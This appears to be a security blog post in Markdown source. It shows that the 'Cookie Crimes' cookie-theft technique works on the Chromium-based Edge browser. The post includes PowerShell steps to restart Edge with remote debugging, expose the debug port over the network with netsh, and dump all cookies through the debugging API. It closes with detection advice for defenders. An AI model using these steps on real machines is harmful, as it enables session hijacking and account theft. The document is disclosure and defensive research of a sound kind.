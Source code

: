 ```yaml
---
title: "Cookie Crimes and the new Microsoft Edge Browser"
date: 2020-04-29T20:30:46-07:00
draft: true
tags: [
        "cookies",
        "red",
        "passthecookie", "ttp","post-exploitation"
    ]
---
```


## Revisiting Cookie Crimes
In 2018 *@mangopdf* described "Cookie Crimes", which is great research around Chrome's remote debugging feature that allows adversaries and malware to gain access to cookies quite convienently during post-exploitation.

The original research is published <a href="https://mango.pdf.zone/stealing-chrome-cookies-without-a-password">here</a>, and it still works today.

## The new Microsoft Edge browser and Chromium

Microsoft's latest Edge browser is based on the same code, Chromium. I guess, you already know where this is going now...

**Yes, this means that "Cookie Crimes" works with the new Edge browser.**

### Notable differences

1. Cookie Crimes uses `chrome.exe`, but if one changes that to `msedge.exe` you can get it to work with Edge on Windows (haven't tried other operating systems)
2. The Edge user data folder is located at `%LOCALAPPDATA%\Microsoft\Edge\User Data` 

Additionally, the techniques around [**remote controlling the browser and oberserving browser behavior of users**](/blog//posts/2020/chrome-spy-remote-control) also works with the Chromium based Edge browser. 

### Basic run-through POC

These are the basic steps to learn more about this feature:

1. `Get-Process msedge | Stop-Process` 
    * *Note:* This is the less subtle way of taking over, sneaky adversaries use `--headless` and a custom `--user-data-dir`)
2. `Start-Process "msedge.exe" "https://outlook.com  --remote-debugging-port=9222"`
3.	Afterwards browse to **localhost:9222** for the debugging UI, or port-forward for remote access:
    * For instance on Windows using `netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=48333 connectaddress=127.0.0.1 connectport=9222`
    * More info about this and also how to open firewall described [here for Windows](/blog/posts/2020/chrome-spy-remote-control).
4. Alternatively to steal cookies use the Cookie Crimes technique:
    * Connect to `localhost:9222/json` to get the WebSocket endpoint.
    * There is a `Network.getAllCookies` API on the websocket server that will return all cookies.
    * Cookie Crimes code is [here for your reference](https://github.com/defaultnamehere/cookie_crimes/blob/master/cookie_crimes.py).


## Mitigations and Detections
* Blue teams should look for `--remote-debugging-port` and custom `--user-data-dir`, and related command line arguments to potentially catch (mis)use for both Chrome and Edge.
* Firefox also has remote debugging, but it works differently (different command line option to look for) - I will post about that soon.
* Out of due diligence I reported this to MSRC (since it's post-exploit nothing will be changed).
* Also suggested to add detections for the TTP to Windows Defender to MSRC
* There are more mitigation ideas [in the previous blog post about Chrome](/blog/posts/2020/chrome-spy-remote-control) as well, please look at them for reference also.

## Final Take-Away
**One key take-away is that malware and exploits that target Chrome (Chromium), will likely often work on the new Edge browser with minimal adjustments, if any.**

![Hacker](/blog/images/2020/hacker.png)